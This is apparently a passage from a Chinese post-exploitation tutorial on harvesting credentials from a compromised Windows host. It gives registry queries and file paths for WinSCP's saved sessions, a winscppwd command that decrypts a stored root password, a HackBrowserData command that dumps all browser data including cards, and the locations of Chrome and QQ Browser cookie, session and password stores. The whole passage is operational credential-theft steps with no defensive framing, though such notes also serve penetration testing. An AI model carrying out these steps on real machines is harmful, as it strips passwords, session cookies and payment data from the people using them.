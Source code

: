 ## 0x08获取winscp记录密码

默认注册表位置：

`shell reg query "HKEY_USERS\S-1-5-21-****\Software\Martin Prikryl\WinSCP 2\Sessions\root@192.168.190.137" /s`  
`HKEY_USERS\SID\Software\Martin Prikryl\WinSCP 2\Sessions\`

WIN7\\8下WinSCP文件默认位置：

`%userprofile%\AppData\Local\VirtualStore\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`C:\Program Files (x86)\WinSCP\WinSCP.ini （64位操作系统）`  
`%userprofile%\AppData\Local\VirtualStore\Program Files\WinSCP\WinSCP.ini （32位操作系统`  
`C:\Program Files\WinSCP\WinSCP.ini （32位操作系统）`

winscppwd破解密码：[https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe](https://bitbucket.org/knarf/winscppwd/downloads/winscppwd.exe)

`winscppwd.exe winscp.ini`

[![](assets/1699927162-9b4dee66746994250d6f0a962d7ac479.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-96412466f68faf21627fdedb310ebc28b2557e24.png)

`winscppwd.exe root 10.1xx.x.213 A35C425xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx3B2B6D6F656B696965646E646F8D`

[![](assets/1699927162-e1ddc72b5ab0fd03af7ed72ec1b35cf0.png)](https://shs3.b.qianxin.com/attack_forum/2021/10/attach-f948ae8df55cc0bd1686b34269184f7fda171052.png)

## 0x09获取浏览器信息

一键获取HackBrowserData：[https://github.com/moonD4rk/HackBrowserData/](https://github.com/moonD4rk/HackBrowserData/)

`hack-browser-data.exe -b all -f json --dir results --cc`

浏览器各类文件地址：

（1）、google

```php
书签：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks
Cookie: %userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cookies
浏览历史：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\History
当前的session：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Current
Session 账号密码：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Login
Data %userprofile%\AppData\Local\Google\Chrome\User Data\Profile 1\Login Data
```

（2）、QQ浏览器

```php
⽤户数据⽬录：%userprofile%\AppData\Local\Tencent\QQBrowser\User Data\Default 
缓存⽬录：%userprofile%\AppData\Local\Google\Chrome\User Data\Default\Cache\ 
各⽂件如下： 
书签：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Bookmarks 
Cookie: %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Cookies 
浏览历史：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\History 
当前的session：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\CurrentSession
账号密码：%userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\Login 
Data或 %userprofile%\AppData\Local\Tencent\QQBrowser\UserData\Default\xxxxxxxxxxx\6
```

